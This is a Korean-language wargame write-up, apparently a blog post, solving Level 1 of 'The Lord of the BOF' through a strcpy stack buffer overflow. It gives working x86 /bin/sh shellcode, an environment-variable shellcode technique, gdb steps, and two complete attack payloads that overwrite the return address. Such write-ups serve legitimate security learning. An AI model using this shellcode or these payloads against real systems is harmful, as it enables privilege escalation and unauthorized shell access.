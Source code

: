 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 1"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level1/1.jpg" | relative_url }}' alt='relative'>  

## 1) gate/gate 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level1/2.png" | relative_url }}' alt='relative'>  

코드 내용을 보니 argv가 2보다 작은지 조건 검사를 하기 때문에 프로그램 실행 시 인자를 넣어줘야 합니다.  
argv[1]에 입력한 내용을 buffer 배열에 입력하는 데 strcpy 함수를 사용하여 취약점이 생겼습니다.  
입력받는 문자열 길이에 제한을 두지 않아 buffer 배열의 길이인 256 바이트 이상의 문자열을 입력할 수 있습니다.  

## 2) BOF 전처리 과정    

### (0) gremlin 스택 구조 확인하기  

<img data-action="zoom" src='{{ "assets/lob/level1/3.png" | relative_url }}' alt='relative'>  

``` bash
0x804845f <main+47>:    lea    %eax,[%ebp-256]
0x8048465 <main+53>:    push   %eax
0x8048466 <main+54>:    call   0x8048370 <strcpy>
```

위의 어셈블리어 코드를 보니 buffer 배열의 위치가 ebp 레지스터에서 256 바이트 떨어진 주소에 위치합니다.  
그러면 RET이 위치한 주소는 문자열 배열 시작 주소에서 256(buffer) byte + 4(SFP) byte에 위치합니다.  

### (1) Eggshell  

FTZ 문제를 풀었다면 이 문제는 쉽게 해결할 수 있습니다.  
- <a href="https://hsong2.github.io/ftz/2021/05/24/Hacker-School-FTZ-Shellcode.html">쉘코드 만드는 방법</a>  
- <a href="https://hsong2.github.io/ftz/2021/05/31/Hacker-School-FTZ-Level-12.html#env">환경변수에 쉘코드 저장</a>  

위의 내용을 참고하여 쉘코드를 환경변수에 저장하였습니다.  

``` c
// Shellcode (setuid 포함, 39 byte)
\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80

// Shellcode (setuid 미포함, 25 byte)
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```

``` bash
export EGG=`python -c 'print "\x90"*20+"\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

``` bash
echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c
```

``` bash
gcc -o getenv getenv.c
```

``` bash
./getenv
```

<img data-action="zoom" src='{{ "assets/lob/level1/4.png" | relative_url }}' alt='relative'>  

RET 위치에 쉘코드가 저장된 환경변수의 주소를 넣어주면 됩니다.  

Eggshell 방식을 사용했을 때 공격 페이로드는 다음과 같습니다. (마지막 환경변수 주소는 본인에 맞게 수정하세요.)  

``` bash
./gremlin `python -c 'print "\x90"*260+"\xab\xfd\xff\xbf"'`
```

### (2) buffer 배열에 shellcode 입력  

buffer 배열에 쉘코드를 입력하고 RET에 buffer 배열의 주소를 입력하면 됩니다.  

우선 gdb로 프로그램을 실행해보기 위해 새로운 프로그램 하나를 만들었습니다.  

```bash
gcc -o test gremlin.c
```

0x8048466 <main+54> 이 주소에 break를 걸고 test 프로그램을 gdb로 실행하였습니다.  
그리고 break가 걸려있을 때 레지스터 정보를 확인하였습니다.  

``` bash
gdb -q ./test

set disassembly-flavor intel

b *main+54

r `python -c 'print "\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*31+"AAAA"'`

info registers
```

gdb로 test 프로그램을 2번 실행해봤는데 ebp 레지스터의 값은 두번 다 동일하였습니다.  
프로그램 실행할 때마다 스택 메모리 주소가 바뀌는 BOF 보호 기법이 적용되지 않았습니다.   

<img data-action="zoom" src='{{ "assets/lob/level1/5.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/lob/level1/6.png" | relative_url }}' alt='relative'>  

프로그램 실행 시마다 메모리에 프로세스가 배치될 위치가 랜덤으로 정해지는 ASLR(Address space layout randomization) 기법이 적용되지 않았습니다.  
스택 메모리 주소가 바뀌지 않는다면 buffer 배열의 주소는 ebp 레지스터에 저장된 주소 값에 256을 뺀 0xbffff928 입니다.  
0xbffffa28 - 0x100(=256) = 0xbffff928

<img data-action="zoom" src='{{ "assets/lob/level1/7.png" | relative_url }}' alt='relative'>  

buffer 배열에 shellcode를 입력하는 방식을 사용했을 때 공격 페이로드는 다음과 같습니다.  

``` bash
./gremlin `python -c 'print "\x90"*200+"\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*21+"\x28\xf9\xff\xbf"'`
```

## 3) BOF 시도  

### (1) Eggshell 방식 결과  

<img data-action="zoom" src='{{ "assets/lob/level1/8.png" | relative_url }}' alt='relative'>  

### (2) buffer 배열에 shellcode 입력 방식 결과  

<img data-action="zoom" src='{{ "assets/lob/level1/9.png" | relative_url }}' alt='relative'>  

## 4) 공격 페이로드를 정확히 입력했는데도 공격이 성공하지 않는 경우!!!  

bash2 쉘로 실행하면 수행됩니다.  

``` bash
bash2
```

<img data-action="zoom" src='{{ "assets/lob/level1/10.png" | relative_url }}' alt='relative'>  
